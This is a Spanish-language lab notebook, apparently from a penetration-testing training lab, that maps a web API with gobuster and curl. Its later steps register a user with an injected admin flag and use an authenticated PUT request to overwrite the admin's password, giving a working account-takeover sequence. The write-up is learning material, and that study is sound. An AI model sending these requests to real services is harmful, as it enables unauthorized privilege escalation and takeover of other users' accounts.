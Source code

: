 # Enumeration: Mapeo basico de sitio web con gobuster y curl

## Fecha: 14/01/2025
## Host: offsecwp
## IP: 192.168.205.16

---

## Objetivo
1. Explorar **gobuster** y sus capacidades para mapear un sitio web  
2. Explorar a travez de **curl** las respuestas de las APIs y encontrar un vector de ataque para escalar privilegios.

---
## Herramientas
1. curl
2. gobuster
---
## Procedimiento y comandos
1. Paso 1: Crear archivo pattern para utilizar con **gobuster -p pattern**
	//contenido de pattern:
	{GOBUSTER}/v1
	{GOBUSTER}/v2
 V/1 y v/2 representan al patron que quermos explorar.
2. Paso 2: 
	gobuster dir -u http://192.168.205.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern 
	- se puede utilizar el parametro **-o result.txt** o **--output result.txt** 
3. Paso 3: 
	curl -i http://192.168.205.16:5002/users/v1
	- ejecuta por defecto un GET y obtenemos usuarios.
4. Paso 4: 
	gobuster dir -u http://192.168.205.16:5002/users/v1/admin -w /usr/share/wordlists/dirb/small.txt
5. Paso 5: 
	curl -i http://192.168.205.16:5002/users/v1/admin/password
	- obtenemos un error, que indica que el metodo GET no esta permitido en el endpoint
6. Paso 6: 
	curl -i http://192.168.205.16:5002/users/v1/login
	- obtenemos un error, que indica "User not found"
7. Paso 7: 
	curl \ 
	-d '{"password":"fake","username":"admin"}'\
	 -H 'Content-Type: application/json' \ 
	http://192.168.205.16:5002/users/v1/login
	- obtenemos un error, indicando que la contrasena es incorrecta, lo cual nos dice que el body es correcto.
	- **{ "status": "fail", "message": "Password is not correct for the given username."} **
8. Paso 8: 
	curl \
	 -d '{"password":"lab","username":"offsecadmin"}'\
	 -H 'Content-Type: application/json' \
	 http://192.168.205.16:5002/users/v1/register
	- Intentamos registrar un usuario, pero obtenemos un error 400 Bad Request, ya que necesitamos el campo email en el body.
	- **{ "status": "fail", "message": "'email' is a required property"}**
9. Paso 9: 
	 curl \ 
	-d '{"password":"baduserpass123","username":"baduser","email":"mybaduser@baduser.com","admin":"True"}' \
	-H 'Content-Type: application/json' \
	 http://192.168.205.16:5002/users/v1/register 
	 - Registramos un usuario con rol:admin y podemos generar un lgoin con un usuario legitimo
10. Paso 10: 
	 curl \
	 -d '{"password":"lab","username":"offsec"}'\
	 -H 'Content-Type: application/json' \
	 http://192.168.205.16:5002/users/v1/login
	- Generamos un login exitoso y obtenemos un token de autenticacion.
11. Paso 11: 
	  curl \
  	  http://192.168.205.16:5002/users/v1/admin/password \ 
  	  -H 'Content-Type: application/json' \
  	  -H 'Authorization: OAuth token-de-respuesta-en-login' \
  	  -d '{"password": "pwned"}'
         - curl de prueba, con el objetivo de obtener una respuesta que indique por medio del error, 
         - cual es la direccion correcta, para modificar datos de otros usuarios
         - obtenemos un error indicando que el metodo en este caso GET no esta permitido
12. Paso 12: 
	curl -X 'PUT' \
  	 http://192.168.205.16:5002/users/v1/admin/password \
        -H 'Content-Type: application/json' \
        -H 'Authorization: OAuth token-usuario-legitimo-generado-en-paso-9'\
        -d '{"password": "pass123"}'
	Modificar metodo a PUT y generar el cambio de password proporcionando token de usuario legitimo en headers

13. (Paso opcional): 
	se puede registrar un usuario sin rol:admin repitiendo el paso 9 pero obviando el campo admin:True y 
	generar el login para obtener un token y
	modificar de todas formas las credenciales de otro, inclusive el las del usuario admin.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

